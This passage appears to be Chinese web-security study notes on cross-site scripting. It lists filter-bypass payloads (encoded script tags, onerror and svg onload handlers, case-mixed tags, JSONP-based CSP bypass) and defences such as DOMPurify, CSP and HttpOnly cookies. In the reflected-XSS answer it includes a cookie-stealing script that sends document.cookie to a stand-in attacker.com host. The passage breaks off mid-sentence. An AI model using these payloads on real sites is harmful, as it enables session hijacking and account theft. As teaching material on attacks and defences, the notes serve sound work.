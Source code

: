 

- 编码绕过：使用Unicode、HTML实体或JS编码混淆恶意代码（如`\u003cscript\u003e`）。
- 事件处理器触发：利用`onerror`、`onmouseover`等属性（如`<img src=x onerror=alert(1)>`）。
- 绕过CSP：通过允许的外部域托管恶意脚本，或利用JSONP端点动态加载代码。

- 绕过正则表达检测：大小写混淆（`<ScRiPt>`）、拆分字符串（`<scr<script>ipt>`）、利用HTML特殊属性（如`<svg/onload>`）。



**防御手段**

**1. 输入过滤与输出编码**

```
// 使用 DOMPurify 过滤 HTML
const clean = DOMPurify.sanitize(userInput);
```



**2. CSP策略确保来源安全**

```
Content-Security-Policy: default-src 'self'; script-src 'nonce-随机值'
```



**3. HttpOnly Cookie**

```
Set-Cookie: session=xxx; HttpOnly; Secure
```



4.使用安全库：如DOMPurify对HTML做净化，或`encodeURIComponent`处理URL参数。

5.避免`innerHTML`，优先使用`textContent`。

6.定期进行安全扫描和渗透测试，关注OWASP Top 10更新。





## Q: 反射型的XSS的危害是什么？

反射型 XSS 的核心危害是会话劫持，虽然反射型XSS无法直接窃取服务器信息，但是它可以通过窃取用户的Cookie或者Session Token间接获取服务器权限

```
<script>fetch('https://attacker.com/steal?data=' + document.cookie)</script>
```

用户点击恶意链接后，攻击者可利用 Cookie 以用户身份登录系统，访问其私有数据（如订单、聊天记录、支付信息等）。

服务器信息泄露的边界是模糊的：用户账户本身可能就是服务器数据的访问入口（如管理员账户）。



反射型 XSS 常通过钓鱼邮件、伪装链接传播，攻击者可结合社会工程手段诱导用户点击。

例如：伪装成银行通知链接：`https://legit-bank.com?search=<script>恶意代码>`。

用户点击后，攻击者可以：伪造登录页面窃取凭据，通过 DOM 操作覆盖页面内容，静默发起转账请求（通过 JavaScript 调用后端 API），植入键盘记录器（记录用户后续操作
